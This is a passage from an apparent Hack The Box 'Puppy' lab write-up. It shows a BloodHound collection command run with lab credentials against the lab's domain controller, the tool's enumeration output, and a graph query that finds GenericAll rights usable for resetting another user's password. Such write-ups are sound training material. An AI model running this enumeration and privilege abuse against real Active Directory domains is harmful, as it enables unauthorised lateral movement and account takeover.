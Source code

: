 

```
~$ bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -dc dc.puppy.htb -d PUPPY.HTB -c All -ns <IP> -o bloodhound_edwards.json

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 29S
```

<p class="indent-paragraph">
To explore the extent of <span class="blue">ant.edwards</span>'s influence within the domain, we ran a broader query to uncover any shortest privilege paths linking him to other user objects. Using<code>MATCH (n:User {name: 'ANT.EDWARDS@PUPPY.HTB'}), (m:User) WHERE n &lt; &gt; m WITH n, m MATCH p = shortestPath((n)-[*..4]-&gt;(m)) RETURN p</code><span class="codefix">,</span> we visualized the privilege graph around his account. The resulting BloodHound path revealed a particularly notable relationship: <span class="blue">ant.edwards</span> is a member of the<code>SENIOR DEVS</code> group, which holds <span class="highlight-red">GenericAll</span> permissions over <span class="blue">adam.silver</span>.</span> This means Edwards can reset Adam’s password or make any modification to his account — a promising vector for lateral movement.
</p>

<img src="/img/RedTeam/htb/puppy/graph_objects_ant-edwards.png" alt="BloodHound showing SENIOR DEVS GenericAll over Adam Silver">

